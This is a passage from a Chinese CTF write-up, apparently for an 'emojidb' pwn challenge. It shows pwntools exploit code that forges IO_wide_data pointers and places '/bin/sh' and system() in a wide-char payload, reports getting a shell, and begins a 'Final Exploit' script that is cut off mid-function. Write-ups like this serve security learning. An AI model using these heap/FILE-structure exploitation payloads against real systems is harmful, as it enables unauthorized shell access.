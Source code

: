 
[![](./img/203685/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_640_/t0150e853386ec239bb.png)

通过偏移计算，我们需要构造如下输入

```
IO_wide_data = libc.address + 0x3eb9e8
info("IO_wide_data = " + hex(IO_wide_data))

payload = ''
for i in range(16):
    payload += char2wchar(p32(IO_wide_data % 0x100000000))
    payload += char2wchar(p32(IO_wide_data &gt;&gt; 32))

payload += char2wchar(b'/bin') + char2wchar(b'/sh')
payload += char2wchar(p32(libc.symbols['system'] % 0x100000000))
payload += char2wchar(p32(libc.symbols['system'] &gt;&gt; 32))
```

[![](./img/203685/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_640_/t01f224e1a5bdb38f87.png)

成功get shell

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'
opcode = {
        '0x1F4D6':"xF0x9Fx93x96",#show
        '0x1F6A9':"xF0x9Fx9AxA9",
        '0x1F193':"xF0x9Fx86x93",#free
        '0x1F195':'xF0x9Fx86x95',#new
}

emojidb=ELF('./emojidb', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(Use_other_libc = False , Use_ssh = False):
    global libc
    if args['REMOTE'] :
        if Use_other_libc :
            libc = ELF("./", checksec = False)
        if Use_ssh :
            s = ssh(sys.argv[3],sys.argv[1], sys.argv[2],sys.argv[4])
            return s.process("./run.sh")
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./run.sh")

def get_main_arena(self):
    """Find main_arena offset
```